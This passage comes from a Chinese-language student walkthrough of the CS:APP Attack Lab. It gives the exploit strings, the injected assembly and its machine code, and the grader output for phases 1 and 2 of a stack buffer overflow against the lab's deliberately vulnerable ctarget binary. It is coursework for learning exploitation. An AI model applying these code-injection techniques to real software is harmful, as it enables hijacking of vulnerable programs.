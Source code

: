 ```bash
Cookie: 0x63149380
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 A0 16 40 00 00 00 00 00
```

### phase_2

第二关根据题意，需要调用 touch2，需要传递一个无符号整数值，其值为 cookie，查看 cookie 文件，如下。

```bash
2017211523@bupt3:~/target117$ cat cookie.txt
0x63149380
```

为了给 touch2 传参，我们需要将 cookie 值赋给%rdi，然后将 touch2 地址压栈，使用 ret 弹出 touch2 地址返回，调用 touch2。

```assembly
mov     $0x63149380,%rdi
pushq   $0x4016cc
ret
```

将其编译为二进制之后在反汇编，得到如下，由此我们便知指令的机器码是多少。

```assembly
phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 80 93 14 63    mov    $0x63149380,%rdi
   7:   68 cc 16 40 00          pushq  $0x4016cc
   c:   c3                      retq
```

我们将指令的机器码放在 getbuf 时的栈顶，然后将返回值位置设置为栈顶地址，这样既可达到目的，调用 getbuf 时栈顶地址为 0x5566f7a8。

```bash
48 c7 c7 80 93 14 63 68
cc 16 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
a8 f7 66 55 00 00 00 00
```

输入运行。

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase2 | ./ctarget -q
Cookie: 0x63149380
Type string:Touch2!: You called touch2(0x63149380)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:2:48 C7 C7 80 93 14 63 68 CC 16 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 A8 F7 66 55 00 00 00 00
```

